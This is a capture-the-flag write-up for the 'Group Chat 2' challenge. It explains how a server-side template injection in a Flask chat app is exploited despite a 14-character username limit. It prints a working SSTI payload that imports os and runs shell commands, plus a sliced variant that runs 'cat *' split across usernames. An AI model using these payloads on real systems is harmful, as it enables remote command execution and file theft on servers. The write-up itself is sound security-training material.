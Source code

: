 
# Group Chat 2

## Description

Usernames have been shortened to prevent spam on the website.

Author: hihitherethere

[Given files](/litctf/group-chat2/main.py)

## Solution

At first glance, the application looks very similar to the previous version.

Even the code is mostly unchanged.
To identify what was modified, I ran a `diff`:

```diff
<         if len(request.form["username"]) > 1000:
---
>         if len(request.form["username"]) > 14:
```

It turns out the only difference is the username length limit, now restricted to 14 characters instead of 1000.

This means the same SSTI vulnerability can be exploited, but with usernames limited to 14 characters, I will need more than two usernames this time to split the payload.

My approach is to use SSTI with square bracket notation and string slicing to remove the non-controllable characters.

The base SSTI payload I used is the following:

```python
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
```

The challenge comes from the non-controllable characters inserted by the application:

* `: `: the delimiter between the username and the message.
* `<br>`: the delimiter between consecutive messages.

For example, the rendered chat looks like this:

```html
username1: message1<br>username2: message2<br>username3: message3
```

The hardest part was figuring out how to slice the strings correctly to fit each username into the 14-character limit while bypassing these delimiters.

The final SSTI payload (including the non-controllable characters) looks like this:

```python
{{request[': application<br>'[2:13]][': msg<br>__globals__: msg<br>'[9:20]][': msg<br>__builtins__: msg<br>'[9:21]][': msg<br>__import__: msg<br>'[9:19]](': os<br>'[2:4])[': popen<br>'[2:7]](': cat<br>'[2:5]+' * #: msg<br>')[': read<br>'[2:6]]()}}: msg<br>
```

